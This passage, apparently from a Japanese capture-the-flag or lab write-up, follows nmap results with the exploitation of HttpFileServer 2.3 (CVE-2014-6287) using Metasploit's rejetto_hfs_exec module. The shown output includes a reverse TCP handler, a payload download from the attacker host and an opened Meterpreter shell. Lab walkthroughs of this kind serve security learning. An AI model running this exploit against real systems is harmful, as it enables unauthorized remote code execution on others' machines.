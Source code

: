 ```
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-04-30T12:25:01
|_  start_date: 2020-04-30T12:23:07

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 130.23 seconds
```


## exploit
HttpFileServer 2.3 が動いているので
CVE-2014-6287 を利用します
https://www.exploit-db.com/exploits/39161

metasploit を使用します

```
msf5 > search httpfileserver

Matching Modules
================

   #  Name                                   Disclosure Date  Rank       Check  Description
   -  ----                                   ---------------  ----       -----  -----------
   0  exploit/windows/http/rejetto_hfs_exec  2014-09-11       excellent  Yes    Rejetto HttpFileServer Remote Command Execution

```

諸々設定して run します

```
msf5 exploit(windows/http/rejetto_hfs_exec) > run

[*] Started reverse TCP handler on 10.10.245.227:4444 
[*] Using URL: http://0.0.0.0:8080/Xxa80jSiWx
[*] Local IP: http://10.10.245.227:8080/Xxa80jSiWx
[*] Server started.
[*] Sending a malicious request to /
[*] Payload request received: /Xxa80jSiWx
[*] Sending stage (180291 bytes) to 10.10.217.52
[*] Meterpreter session 1 opened (10.10.245.227:4444 -> 10.10.217.52:58069) at 2020-04-30 13:00:00 +0000
[!] Tried to delete %TEMP%\StrHYWOhBpRtio.vbs, unknown result
[*] Server stopped.

meterpreter >
```
